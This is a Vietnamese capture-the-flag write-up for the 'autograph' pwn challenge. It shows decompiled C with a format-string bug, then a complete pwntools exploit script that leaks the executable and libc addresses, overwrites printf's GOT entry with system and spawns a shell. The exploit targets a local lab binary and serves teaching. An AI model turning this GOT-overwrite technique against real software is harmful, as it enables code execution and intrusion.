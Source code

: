 # autograph

1 bài fmt cơ bản với **kĩ thuật orw GOT**

## ida
```c 
int debug_notes()
{
  char s[256]; // [rsp+0h] [rbp-100h] BYREF

  puts("Enter your notes: ");
  fgets(s, 256, stdin);
  puts("You Notes:");
  return printf(s);
}

void __noreturn menu()
{
  char s[4]; // [rsp+7h] [rbp-9h] BYREF
  char v1; // [rsp+Bh] [rbp-5h]
  int v2; // [rsp+Ch] [rbp-4h]

  while ( 1 )
  {
    while ( 1 )
    {
      puts("\nWhat are you going to do?");
      puts("-------------------------");
      puts("1. Add Notes");
      puts("2. View the Notes");
      puts("3. Exit");
      puts("-------------------------");
      printf("Enter choice: ");
      *(_DWORD *)s = 0;
      v1 = 0;
      fgets(s, 5, stdin);
      v2 = atoi(s);
      if ( v2 != 1 )
        break;
      add_notes();
    }
    switch ( v2 )
    {
      case 2:
        view_notes();
        break;
      case 3:
        exit(0);
      case 9:
        debug_notes();
        break;
      default:
        puts("Try again.\n");
        break;
    }
  }
}
```

nhìn phát thấy luôn có lỗi fmtstr trong option 9 rồi 

**checks:**

![image](https://github.com/gookoosss/CTF/assets/128712571/85a67a14-4add-4ca7-bc41-9802bd917a17)


RelRO Partial nên ta hoàn toàn có thể orw GOT 

## Phân tích
- vì mục đích của ta là orw GOT nên đầu tiên ta cần leak libc vs exe trước
- tại hàm printf có lỗi fmt nên ta sẽ lợi dụng để orw got&printf thành system
- lần nhập cuối ta sẽ nhập /bin/sh\0 và tạo shell thôi

## khai thác

(vì bài này là 1 trong những dạng cơ bản của kĩ thuật orw GOT nên mình cũng không biết viết gì thêm, nên mình chỉ comment lại những bước làm trong script thôi)

**nếu còn ko hiểu thì bạn có thể tham khảo thêm tại:**

https://github.com/gookoosss/CTF/blob/main/PWN/training/fmtstr6.md

## script

```python
#!/usr/bin/env python3

from pwn import *

exe = ELF("./autograph_patched")
libc = ELF("./libc6_2.35-0ubuntu3.1_amd64.so")
ld = ELF("./ld-2.35.so")

context.binary = exe
p = process([exe.path])

# gdb.attach(p, gdbscript = '''
# b*debug_notes+48
# c
# ''')

# input()

##########################
### Stage 1 : leak exe ###
##########################

p.sendlineafter(b'Enter choice: ', b'9')

payload = b'%9$p' 
p.sendlineafter(b'notes: ', payload)     
p.recvuntil(b'You Notes:\n')
exe_leak = int(p.recvline()[:-1], 16)
exe.address = exe_leak - 0x141f
log.info("exe leak: " + hex(exe_leak))   
log.info("exe base: " + hex(exe.address))   

###########################
### Stage 1 : leak libc ###
###########################

p.sendlineafter(b'Enter choice: ', b'9')

payload = b'%7$p' 
p.sendlineafter(b'notes: ', payload)     
p.recvuntil(b'You Notes:\n')
libc_leak = int(p.recvline()[:-1], 16)
libc.address = libc_leak - 0x8ccb6
log.info("libc leak: " + hex(libc_leak))   
log.info("libc base: " + hex(libc.address))   

got_printf = exe.got['printf']
system = libc.sym['system']

log.info("printf: " + hex(got_printf))   
log.info("system: " + hex(system))  

##########################
### Stage 1 : orw GOT  ###
##########################

p.sendlineafter(b'Enter choice: ', b'9')

payload = f'%{system & 0xff}c%10$hhn'.encode()
payload += f'%{(system >> 8) & 0xffff - (system & 0xff)}c%11$hn'.encode()
payload = payload.ljust(32, b'P')
payload += p64(got_printf)
payload += p64(got_printf + 1)
p.sendlineafter(b'notes: ', payload)     

p.sendline(b'9')
p.sendline(b'/bin/sh\0')     

p.interactive()
```


